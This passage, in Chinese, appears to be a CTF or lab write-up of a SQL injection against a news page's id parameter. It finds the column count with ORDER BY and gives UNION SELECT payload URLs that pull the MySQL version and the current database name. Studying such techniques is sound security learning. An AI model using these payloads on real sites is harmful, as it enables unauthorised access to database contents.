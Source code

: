 > 注意，通常網址送出去都會被轉換成 URL encode（ e.g. (空格) = '%20' ）

經過測試可以知道 id 的資料型態為整數，且測到 `ORDER BY 4` 網頁就沒有顯示顯示畫面，判斷表格的欄位數為 3，如此一來我們就可以用 `UNION SELECT` 串接其他 SQL 的查詢語句。

再來，我們嘗試戳 id，先找到一個無法正常查詢到的頁面（ e.g. id=6 ），拿來當作我們進行 SQL injection 要顯示結果的畫面，配合剛剛摸索到的欄位數，先來塞個 1, 2, 3 看看會怎麼樣。

```http
https://news.macacahub.tw/new.php?id=6 UNION SELECT 1,2,3
```

![ ](./pic/0-2.png)

OK 成功顯示！
接下來就可以透過 SQL query 想辦法撈出我們想要的資訊，例如：SQL 版本。

```http
https://news.macacahub.tw/new.php?id=6 UNION SELECT @@version,NULL,NULL
```

![ ](./pic/0-3.png)

用了 MySQL 的版本查詢方式 `@@version` 發現可以成功撈到版本。
下一步，我們需要先知道現在所在的資料庫名稱。

```http
https://news.macacahub.tw/new.php?id=6 UNION SELECT DATABASE(),NULL,NULL
```

![ ](./pic/0-4.png)
